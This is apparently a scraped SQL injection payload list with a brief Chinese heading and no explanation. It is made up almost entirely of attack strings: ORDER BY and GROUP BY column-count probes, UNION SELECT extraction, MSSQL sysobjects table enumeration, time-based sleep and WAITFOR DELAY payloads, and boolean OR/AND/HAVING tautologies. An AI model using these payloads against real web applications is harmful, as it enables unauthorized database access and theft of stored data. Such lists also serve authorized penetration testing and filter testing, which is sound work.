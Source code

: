 
1' ORDER BY 1--+
1' ORDER BY 2--+
1' ORDER BY 3--+

1' ORDER BY 1,2--+
1' ORDER BY 1,2,3--+

1' GROUP BY 1,2,--+
1' GROUP BY 1,2,3--+
' GROUP BY columnnames having 1=1 --


-1' UNION SELECT 1,2,3--+
' UNION SELECT sum(columnname ) from tablename --


-1 UNION SELECT 1 INTO @,@
-1 UNION SELECT 1 INTO @,@,@

1 AND (SELECT * FROM Users) = 1  

' AND MID(VERSION(),1,1) = '5';

' and 1 in (select min(name) from sysobjects where xtype = 'U' and name > '.') --


Finding the table name


Time-Based:
,(select * from (select(sleep(10)))a)
%2c(select%20*%20from%20(select(sleep(10)))a)
';WAITFOR DELAY '0:0:30'--

## 基于通用错误的有效负载

 OR 1=1
 OR 1=0
 OR x=x
 OR x=y
 OR 1=1#
 OR 1=0#
 OR x=x#
 OR x=y#
 OR 1=1-- 
 OR 1=0-- 
 OR x=x-- 
 OR x=y-- 
 OR 3409=3409 AND ('pytW' LIKE 'pytW
 OR 3409=3409 AND ('pytW' LIKE 'pytY
 HAVING 1=1
 HAVING 1=0
 HAVING 1=1#
 HAVING 1=0#
 HAVING 1=1-- 
 HAVING 1=0-- 
 AND 1=1
 AND 1=0
 AND 1=1-- 
 AND 1=0-- 
 AND 1=1#
 AND 1=0#
 AND 1=1 AND '%'='
 AND 1=0 AND '%'='
 AND 1083=1083 AND (1427=1427
 AND 7506=9091 AND (5913=5913
 AND 1083=1083 AND ('1427=1427
 AND 7506=9091 AND ('5913=5913
 AND 7300=7300 AND 'pKlZ'='pKlZ